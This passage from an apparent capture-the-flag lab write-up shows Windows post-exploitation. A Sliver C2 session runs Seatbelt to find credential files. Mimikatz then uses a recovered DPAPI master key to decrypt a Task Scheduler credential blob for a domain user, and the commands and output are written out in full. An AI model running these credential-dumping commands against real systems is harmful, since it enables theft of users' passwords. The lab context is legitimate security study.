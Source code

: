 ```
sliver (reflection) > seatbelt WindowsCredentialFiles
......
  Folder : C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

    FileName     : 2A5FD8B6E555858DE1974096F0A5DD39
    Description  : Local Credential Data
    MasterKey    : d0486e64-ff99-4f38-8962-56d7767effbd
    Accessed     : 6/7/2023 12:22:44 PM
    Modified     : 6/7/2023 12:22:44 PM
    Size         : 576
```

If you remember earlier, the master key was a relatively long string of text at the bottom of our DMP file. That is the unencrypted master key, which normally we would use the corresponding GUID to decrypt it. Luckily enough, now that we have the decrypted master key, we just need to plug the right one into its respective credential file.

I left one of the credential files in the above output as it corresponds to the GUID that was listed for one of the DPAPI master keys from the DMP file. There is another credential file with the same GUID, however I found after some testing that it is not the correct credential file for us to exploit. This just takes some trial and error if you have the same GUID for multiple master keys.

If we have the correct master key and its corresponding credential file, we should be able to dump the credential blob (otherwise being the plaintext password) for the user it belongs to. I'll put all of the respective attributes that we have to dump the credential blob.

* Key GUID - `d0486e64-ff99-4f38-8962-56d7767effbd`
* Master Key - `ca00bf269b1c1879ad1d664d6fadd9d4169b408e953d9acfece3476622fccc85c72b0e9879222b12a08ec6ee3f1c55d5b772d3d404c520c886413321af99caf0`
* Credential File - `C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\2A5FD8B6E555858DE1974096F0A5DD39`

Given that we have all of the assets required, let's use Mimikatz once more to dump the credential blob. I've found that running through WinRM prompts an error, however if you log in as the Administrator through RDP it should work as intended.

```
PS C:\Users\Administrator\Documents> .\mimikatz.exe "dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\2A5FD8B6E555858DE1974096F0A5DD39 /masterkey:ca00bf269b1c1879ad1d664d6fadd9d4169b408e95[...snip...]3f1c55d5b772d3d404c520c886413321af99caf0" "exit"

......
  TargetName     : Domain:batch=TaskScheduler:Task:{013CD3ED-72CB-4801-99D7-8E7CA1F7E370}
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : REFLECTION\Georgia.Price
  CredentialBlob : [...snip...]
  Attributes     : 0
```

As you can see, this credential file seemed to correspond to `Georgia.Price`. Our theory for task scheduler from before was half correct, as the plaintext password for the user is stored on this task. The credential blob that we dumped corresponded to this specific task scheduler credential attribute, as this is where it is stored.
